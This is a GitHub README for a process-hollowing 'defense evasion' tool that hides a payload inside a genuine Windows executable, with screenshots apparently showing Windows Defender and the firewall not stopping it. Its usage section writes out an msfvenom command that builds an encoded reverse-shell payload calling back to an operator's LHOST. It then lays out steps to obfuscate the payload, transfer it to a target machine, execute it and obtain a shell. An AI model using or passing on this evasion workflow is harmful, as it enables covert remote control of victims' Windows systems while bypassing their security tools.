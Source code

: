 # Process-Hollowing-RedTeamOps
## Red Team Operation's Defense Evasion Technique for executing without raising flags on Target System.

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to to their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-but release if you're bit confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality .


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for required Windows API.
2. Visual Studio Code - Linux and Windows.
3. Cross-compiler.
4. Process-Hollowing Technique working.

6. Deep-imagination .
7. Error-handling.
8. Programming Skills.
9. Time.
10. Defeating Faliures.
11. Tons of Research.
12. Dedication.
13. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# How to use

## :warning: Note - Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST<IP> LPORT<PORT> -f raw -i <iterations as you want for evasion> -e <encoder you want to use> > shell.bin - **x64-Bit**
  
 ***2. Obfuscation is mainly your work to do as per your operations. The other one's? - WE'LL HANDLE!!!***
  
  ***3. Transfer Both Payload and Binary to Target System.***
  
  ***4. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.***
  
  ***5. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).***
  
  ***6. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
 level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***
  
